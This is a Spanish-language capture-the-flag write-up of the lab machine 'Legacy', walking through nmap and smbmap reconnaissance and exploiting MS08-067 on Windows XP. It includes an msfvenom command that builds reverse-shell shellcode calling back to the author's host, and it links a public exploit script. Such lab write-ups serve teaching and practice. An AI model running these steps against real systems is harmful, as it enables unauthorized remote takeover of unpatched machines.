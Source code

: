 ```yaml
---
title: Legacy
published: true
categories: [Windows, Easy] 
tags: [Windows explotation, MS08-067]
author: Alejandro Rivera
image:
  path: https://user-images.githubusercontent.com/55555187/182439413-1283bf8a-321b-49c1-90a3-43ce6f8f3e09.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


Legacy es una <font color="#98E256">máquina Easy</font> de temática <font color="#2874A6">Windows</font> en la que se toca la vulnerabilidad MS08-067 sobre RPC.

## Reconocimiento y explotación

```bash
nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.10.4
```

![2022-07-30-12-02-31-image](https://user-images.githubusercontent.com/55555187/182439389-a6e5097b-2b3a-4ef9-a835-d83fa674e054.png)

```bash
nmap -sVC -p135,139,445 10.10.10.4 -oN portSV
```

![2022-07-30-12-04-05-image](https://user-images.githubusercontent.com/55555187/182439378-f3aece5b-a153-4c20-89b0-47fb0f87956e.png)

Reviso el servicio Samba pero no tiene ningún recurso compartido.

```bash
smbmap -H 10.10.10.4 -R
```

Viendo la información reportada por *nmap* me llama la atención el OS (*Windows XP*) y el puerto *RPC* abierto por lo que decido buscar exploits relacionados con ese OS y puerto.

Tras un rato de investigación descubro que en Windpows XP se puede lograr RCE explotando la vulnerabilidad **MS08_067** en RPC que explota un *buffer overflow*.

Buscando en Github encuentro un script en Python que se puede utilizar para explotar la vulnerabilidad [MS08-067.py](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py). Lo único que hay que hacer es modificar el shellcode del script por uno propio.

Genero un shellcode utilizando *msfvenom* que me entable una revershe shell y la sustituyo en el script

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Ejecuto el script y logro una shell:

![2022-07-30-12-37-36-image](https://user-images.githubusercontent.com/55555187/182439397-b0732336-8f6e-4a26-8c0d-e0b2023dd014.png)

![2022-07-30-12-38-10-image](https://user-images.githubusercontent.com/55555187/182439392-76759255-4a06-4cb3-bc6a-3a84782f7a97.png)

**Nota:** Si falla el intento de explotación se puede dar un bloqueo en Svchost.exe lo que haría que el servicio Samba fallase impidiendo (impidiendo explotar la vulnerabilidad, entre otras cosas) por lo que hay que tener cuidado a la hora de ejecutar el exploit.

Intento ver con que usuario tengo la shell: 

1. Comprobando la variable de entorno *USERNAME* mediante *echo %USERNAME%* pero no obtengo nada por que no está seteada

2. Intentando usar *whoami* pero en Windows XP no existe

3. Usando el comando *net* para ver que usuarios existen en el sistema por si solo hubiese uno (poco probable)

4. Mirando si puedo lanzar una *powershell* para probar con el comando *[System.Security.Principal.WindowsIdentity]::GetCurrent().Name* pero no está powershell en el sistema

A pesar de que no he podido obtener información del usuario, puedo acceder al escritorio de Administrator por lo que es sensato asumir que estoy como dicho usuario.

## Escalada de privilegios

En este caso no es necesario ya que tenemos una shell como **Administrator**
